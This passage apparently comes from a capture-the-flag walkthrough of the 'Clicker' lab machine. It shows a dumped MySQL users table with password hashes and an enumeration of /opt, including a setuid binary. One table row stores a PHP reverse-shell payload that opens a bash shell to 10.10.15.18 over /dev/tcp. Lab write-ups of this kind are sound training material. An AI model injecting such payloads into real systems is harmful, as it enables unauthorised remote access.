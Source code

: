 ```
+---------------+----------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
| admin         | admin                                                                      | ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82 | Admin | 999999999999999999 | 999999999 |
| ButtonLover99 | ButtonLover99                                                              | 55d1d58e17361fe78a61a96847b0e0226a0bc1a4e38a7b167c10b5cf513ca81f | User  |           10000000 |       100 |
| Paol          | Paol                                                                       | bff439c136463a07dac48e50b31a322a4538d1fac26bfb5fd3c48f57a17dabd3 | User  |            2776354 |        75 |
| testtest      | <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.18/8081 0>&1'"); ?> | 37268335dd6931045bdcdf92623ff819a64244b53d0e746d438797349d4da578 | Admin |               5000 |         5 |
| Th3Br0        | Th3Br0                                                                     | 3185684ff9fd84f65a6c3037c3214ff4ebdd0e205b6acea97136d23407940c01 | User  |           87947322 |         1 |
+---------------+----------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
5 rows in set (0.00 sec)

mysql> 
```

The passwords are SHA256 hashed, and we already tried to brute force them. So here are no other useful information.

### `/opt`
In the `/opt` directory are some interesting files:
```
www-data@clicker:/var/www/clicker.htb/exports$ ls -alR /opt/
/opt/:
total 16
drwxr-xr-x  3 root root 4096 Jul 20 10:00 .
drwxr-xr-x 18 root root 4096 Sep  5 19:19 ..
drwxr-xr-x  2 jack jack 4096 Jul 21 22:29 manage
-rwxr-xr-x  1 root root  504 Jul 20 10:00 monitor.sh

/opt/manage:
total 28
drwxr-xr-x 2 jack jack  4096 Jul 21 22:29 .
drwxr-xr-x 3 root root  4096 Jul 20 10:00 ..
-rw-rw-r-- 1 jack jack   256 Jul 21 22:29 README.txt
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
www-data@clicker:/var/www/clicker.htb/exports$
```

Let's take a closer look into that `manage/` folder:
```
www-data@clicker:/opt$ cat /opt/manage/README.txt 
Web application Management

Use the binary to execute the following task:
        - 1: Creates the database structure and adds user admin
        - 2: Creates fake players (better not tell anyone)
        - 3: Resets the admin password
        - 4: Deletes all users except the admin
www-data@clicker:/opt$
```
